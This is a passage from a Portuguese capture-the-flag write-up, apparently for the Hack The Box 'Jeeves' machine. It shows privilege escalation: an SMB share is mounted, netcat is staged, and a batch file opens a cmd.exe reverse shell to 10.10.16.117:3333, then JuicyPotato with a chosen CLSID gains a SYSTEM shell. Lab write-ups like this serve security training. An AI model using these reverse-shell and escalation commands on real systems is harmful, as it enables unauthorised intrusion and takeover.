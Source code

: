 ou

*New-PSDRive -Name "jeeves" -PSProvider "FileSystem" -Root "\\10.10.16.117\jeeves"*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_r3.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_r4.png)

Colocamos o nc.exe lá dentro, pra quando executar como root me dar um shell de root, colocamos ele na pasta que está sendo compartilhada com o Jeeves e copiamos ele para o diretório `C:\Users\kohsuke\Downloads`

`xcopy nc64.exe C:\\Users\\kohsuke\\Downloads\\nc64.exe /e /y`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_r5.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_r6.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_r7.png)

Crio o arquivo .bat para ser executado

`echo C:\Users\kohsuke\Downloads\nc64.exe -e cmd.exe 10.10.16.117 3333 > rev.bat`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_r8.png)

Também copiamos o JuicyPotato.exe, pra ficar mais fácil de trabalhar

`copy JuicyPotato.exe C:\\Users\\kohsuke\\Downloads\\JuicyPotato.exe`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_r9.png)

Bom, para o JuicyPotato.exe funcionar corretamente, devemos estar em um shell normal, no powershell geralmente ele da uns bug maluco, então vamos pegar uma reverse shell de cmd.exe com o nc64.exe que foi posto ali dentro

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_r10.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_r11.png)

Agora executamos o JuicyPotato.exe e ganhamos acesso de root

Devemos pegar o CLSID do sistema que está rodando, o que eu usei foi o `e60687f7-01a1-40aa-86ac-db1cbf673334` que está presente em todos e tem permissões de authority, é a respeito do serviço `wuauserv`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_cl.png)

`JuicyPotato.exe -p C:\Users\kohsuke\Downloads\rev.bat -l 3333 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_r12.png)

Sim, deu um trabalinho bem grande até, mais do que eu esperava, mas é isso ai
